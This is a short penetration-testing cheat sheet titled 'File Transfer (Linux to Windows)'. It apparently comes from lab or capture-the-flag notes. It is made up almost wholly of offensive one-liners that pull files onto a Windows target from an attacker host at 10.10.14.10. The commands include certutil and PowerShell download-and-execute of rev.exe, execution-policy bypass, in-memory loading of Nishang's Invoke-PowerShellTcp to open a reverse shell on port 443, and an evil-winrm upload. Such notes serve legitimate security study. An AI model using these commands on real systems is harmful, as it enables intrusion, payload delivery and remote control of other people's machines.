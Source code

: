 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["file transfer", "Windows", "evil-winrm"]
---
```


---
### HTTP

#### Start a Local HTTP Server

```bash
python3 -m http.server 80
```

#### cmd

```bash
certutil -urlcache -split -f http://10.10.14.10/rev.exe C:\ProgramData\rev.exe
```

```bash
# Upload and Run
certutil -urlcache -split -f http://10.10.14.10/rev.exe C:\ProgramData\rev.exe && C:\ProgramData\rev.exe
```

#### powershell

```powershell
# Long version
Invoke-WebRequest http://10.10.14.10/rev.exe -OutFile C:\ProgramData\rev.exe
```

```powershell
# Short version
iwr http://10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

<small>*Note: PowerShell 3.0+*</small>

```powershell
# Long version
powershell.exe -ExecutionPolicy bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

```powershell
# Short version
powershell -ep bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

<small>*Note: curl is not always available*</small>

```powershell
# Load into memory and Run
```

```powershell
# Long version
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

```powershell
# Short version
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

```powershell
# Combined version
iex (iwr http://10.10.14.10/rev.ps1)
```

<small>*Note: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

---

### Evil-winrm

```bash
# Evil-winrm built-in function
upload "/tmp/example.txt" "C:\ProgramData\example.txt"
```

<br>